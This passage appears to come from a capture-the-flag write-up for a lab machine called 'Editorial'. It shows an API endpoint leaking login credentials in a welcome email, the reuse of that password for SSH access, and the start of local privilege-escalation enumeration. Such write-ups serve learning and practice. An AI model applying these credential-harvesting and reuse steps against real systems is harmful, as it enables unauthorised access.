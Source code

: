 ```json
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

## Remote Code Execution

An API endpoint leaks valid login credentials, `http://127.0.0.1:5000/api/latest/metadata/messages/authors`:

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

That password is reused for the shell account:

```console
$ ssh dev@editorial.htb
Warning: Permanently added 'editorial.htb' (ED25519) to the list of known hosts.
dev@editorial.htb's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)
...
```

## Privilege Escalation

There's another user on the target, `prod`.

```console
dev@editorial:~$ find / -user prod 2>/dev/null
/home/prod
/var/crash/_opt_wsgi.py.1000.crash
```

Unfortunately I can't read that crash dump:

```console
dev@editorial:~$ ls -l /var/crash/_opt_wsgi.py.1000.crash
-rw-r----- 1 prod prod 27187 Jan 31  2023 /var/crash/_opt_wsgi.py.1000.crash
```
